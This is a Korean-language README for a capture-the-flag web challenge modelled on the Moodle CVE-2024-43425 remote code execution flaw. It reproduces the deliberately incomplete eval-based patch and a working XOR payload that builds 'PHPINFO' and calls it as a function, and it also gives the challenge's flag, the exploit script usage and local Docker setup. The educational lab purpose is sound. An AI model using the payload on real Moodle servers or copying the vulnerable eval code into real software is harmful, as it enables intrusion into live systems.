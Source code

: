 # Advanced Calculator - CVE-2024-43425 기반 문제

> 🎯 **만든이**: 예지 (융합보안공학과)  
> 🏷️ **분야**: Web Security, Moodle CVE-2024-43425  
> 🔧 **키워드**: XOR, Variable Functions, INF string generation

## 📖 문제 설명

**겉보기**: 평범한 수학 계산 연습 사이트
**실제**: Moodle 4.4.1의 CVE-2024-43425 취약점을 이용한 웹 해킹 문제

## 🔍 취약점 분석

### Moodle 4.4.1 CVE-2024-43425
- **원본 소스**: https://git.moodle.org/gw?p=moodle.git;a=blob;f=question/type/calculated/questiontype.php
- **취약점**: Variable Functions를 이용한 RCE
- **패치 시도**: 중괄호를 소괄호로 치환하여 Variable Variables 차단 시도
- **우회 방법**: XOR 연산을 이용한 임의 문자열 생성

### 핵심 코드
```php
// Moodle 원본 코드 사용
function check_formula($formula) {
    // ... 원본 검증 로직
}

function calculate($formula) {
    $error = check_formula($formula);
    if ($error) {
        return null;
    } else {
        // CVE-2024-43425 패치 시도 (불완전)
        $formula = str_replace('{', '(', $formula);
        $formula = str_replace('}', ')', $formula);
        
        return eval('return ' . $formula . ';');
    }
}
```

## 🎯 공격 시나리오

### 1단계: INF 문자열 생성
```php
exp(1000)  // 결과: INF (문자열)
```

### 2단계: XOR 연산으로 PHPINFO 문자열 생성
```php
// 원본 연구 페이로드
((exp(1000) . 0+exp(1000) . 0+exp(1000)) ^ (4 . 2 . 3 . 0 . 0 . 0 . 0) ^ (0 . 0 . 0 . 0 . 0 . 0 . 0) ^ (0 . 0 . -1 . 1 . 1 . 4) ^ (-4 . 8 . 1 . 1 . 1 . 2))
// 결과: "PHPINFO" 문자열
```

### 3단계: Variable Functions 실행
```php
// {중괄호}가 (소괄호)로 변환됨
PHPINFO_STRING{INFO_ALL} → PHPINFO_STRING(INFO_ALL)
// 결과: phpinfo() 함수 실행
```

## 🚀 익스플로잇

### 페이로드
```
((exp(1000) . 0+exp(1000) . 0+exp(1000)) ^ (4 . 2 . 3 . 0 . 0 . 0 . 0) ^ (0 . 0 . 0 . 0 . 0 . 0 . 0) ^ (0 . 0 . -1 . 1 . 1 . 4) ^ (-4 . 8 . 1 . 1 . 1 . 2)){INFO_ALL}
```

### 실행 방법
1. 웹사이트 접속: http://localhost:10001
2. 수식 입력란에 위 페이로드 입력
3. phpinfo() 결과에서 환경변수 FLAG 확인

### 자동화 스크립트
```bash
python3 exploit.py localhost 10001
```

## 🏆 플래그
```
DH{Moodl3_XOR_Vuln3r4b1l1ty_2024_YBG}
```

## 📁 파일 구조
```
calculating_game/
├── Dockerfile
├── docker-compose.yml  # 포트 10001
├── exploit.py          # XOR 기반 익스플로잇
├── README.md
└── deploy/
    ├── flag            # DH{...} 플래그
    └── src/
        ├── index.php   # 리다이렉트
        └── game.php    # Moodle 코드 기반 취약한 계산기
```

## 🔧 실행 방법

### Docker
```bash
cd calculating_game
docker-compose up -d
# http://localhost:10001
```

### 로컬
```bash
cd deploy/src
php -S localhost:10001
```

## 🛡️ 취약점 원리

### 1. **Moodle CVE-2024-43425**
- calculated question type의 수식 처리 과정에서 발생
- Variable Variables 차단을 위한 패치가 불완전

### 2. **XOR String Generation**
- exp(1000) → INF 문자열 생성
- 숫자와 XOR 연산하여 임의 문자열 조합
- PHPINFO 문자열 생성 후 Variable Functions로 실행

### 3. **Variable Functions**
- PHP의 특성: 문자열을 함수명으로 사용 가능
- 'function_name'(args) 형태로 동적 함수 호출

## 📚 참고 자료

- [RedTeam Pentesting - Moodle RCE](https://blog.redteam-pentesting.de/2024/moodle-rce/)
- [Moodle CVE-2024-43425](https://moodle.org/security/)
- [원본 소스코드](https://git.moodle.org/gw?p=moodle.git;a=blob;f=question/type/calculated/questiontype.php)

---

**Created by 예지 (융합보안공학과)**  
**기반**: Moodle CVE-2024-43425 취약점 연구
